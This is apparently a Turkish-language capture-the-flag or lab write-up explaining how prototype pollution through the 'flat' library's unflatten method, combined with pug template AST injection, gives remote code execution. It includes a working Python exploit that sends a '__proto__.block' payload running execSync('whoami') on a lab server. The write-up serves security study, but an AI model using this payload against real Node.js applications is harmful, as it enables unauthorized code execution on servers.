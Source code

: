 Uygulama, **unflatten** metodundaki bir zafiyete karşı savunmasız olan, belirli bir sürümdeki **flat** kütüphanesini kullanıyor ve bu durum **prototype pollution** (prototip kirliliği) saldırılarına açık hale getiriyor.

Uygulama, **prototype pollution** saldırılarına karşı savunmasız ve yanıtları oluşturmak için **pug** template motorunu kullanıyor. Bu nedenle, **pug template injection** üzerinden [[AST Injection\|AST Injection]] gerçekleştirerek **RCE** (Remote Code Execution - Uzaktan Kod Çalıştırma) elde edebiliriz.

![Pasted image 20250129202818.png](/img/user/Pasted%20image%2020250129202818.png)

JS uygulamasında Prototype pollution zafiyeti varsa, Parser veya Compiler işlemi sırasında fonksiyona herhangi bir AST eklenebilir. Burada, henüz lexer veya parser tarafından doğrulanmamış olan girdiyi düzgün bir şekilde filtrelemeden (düzgün bir şekilde filtrelenmemiş) AST ekleyebilirsiniz. Ardından, derleyiciye beklenmedik bir girdi verebiliriz.

![Pasted image 20250129202906.png](/img/user/Pasted%20image%2020250129202906.png)

Pug yukarıdaki grafikte gösterildiği gibi çalışır. Handlebar'lardan farklı olarak, her proses ayrı bir modüle ayrılmıştır. pug-parser tarafından üretilen AST, pug-code-gen'e aktarılır ve bir fonksiyon haline getirilir. Ve son olarak, çalıştırılacaktır.


### Exploit

Senaryomuzu exploit etmek için aşağıdaki exploit 'i oluşturabiliriz:

```
import requests
TARGET_URL = 'http://94.237.50.242:30751'
r = requests.post(TARGET_URL+'/api/submit', json = {
    "artist.name": "Gingell",
    "__proto__.block": {
        "type": "Text",
        "line": "console.log(process.mainModule.require('child_process').execSync('whoami > /app/static/pwned').toString())"
    }
})
print(requests.get(TARGET_URL+'/static/pwned').text)

```

![Pasted image 20250129204016.png](/img/user/Pasted%20image%2020250129204016.png)

![Pasted image 20250129203939.png](/img/user/Pasted%20image%2020250129203939.png)

![Pasted image 20250129203946.png](/img/user/Pasted%20image%2020250129203946.png)

